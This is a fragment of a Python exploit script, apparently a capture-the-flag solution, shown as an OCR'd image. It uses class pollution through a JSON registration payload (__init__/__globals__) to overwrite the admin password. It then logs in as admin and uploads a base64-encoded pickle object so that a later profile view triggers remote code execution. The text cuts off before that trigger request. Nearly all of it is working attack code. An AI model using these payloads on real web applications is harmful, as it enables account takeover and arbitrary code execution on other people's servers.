 ``` python

# register
def AdminPasswordPollute(admin_password, new_username, new_password):
    payload = {
        "username": new_username,
        "password": new_password,
        "__init__": {
            "__globals__": {
                "admin": {
                    "password": admin_password
                }
            }
        }
    }
    registerURL = "/register"
    req = s.post(url=baseURL + registerURL, json=payload)
    # time.sleep(1)
    if req.status_code == 200:
        print(f"[+]register attack success, you can login as admin by the password: {admin_password}")
    else:
        print(f"[-]attack error when registering")
        exit(-1)


# login
def LoginAndPickleAttack(admin_password, new_username, new_password):
    payload = {
        "username": "admin",
        "password": admin_password
    }

    # login as admin
    loginURL = "/login"
    req = s.post(url=baseURL + loginURL, json=payload)
    # time.sleep(1)
    if req.status_code == 200:
        print("[+]Now login as admin")
    else:
        print("[-]fail to login as admin")
        exit(-1)
    

    badmsg = Message("attack", "good")
    badmsgbytes = pickle.dumps(badmsg, protocol=4)
    editURL = "/profile/admin/edit"
    payload1 = {
        "message": base64.b64encode(badmsgbytes).decode('utf-8'),
        "status": "nice"
    }

    req1 = s.post(url=baseURL + editURL, json=payload1)
    time.sleep(1)
    if req1.status_code == 200:
        print("[+]upload the attack payload success")
    else:
        print("[-]upload the attack payload fail")
        exit(-1)



    # now trigger the python pickle ==> RCE
    viewURL = f"/profile/admin/view/api"
```